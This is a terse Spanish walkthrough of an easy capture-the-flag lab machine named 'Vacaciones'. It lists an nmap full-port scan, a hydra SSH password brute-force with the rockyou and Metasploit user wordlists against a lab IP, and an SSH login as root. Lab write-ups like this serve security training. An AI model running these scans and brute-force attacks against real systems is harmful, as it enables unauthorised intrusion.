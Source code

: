 Maquina: Vacaciones
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2 -t 10 -I

ssh root@172.17.0.2

whoami
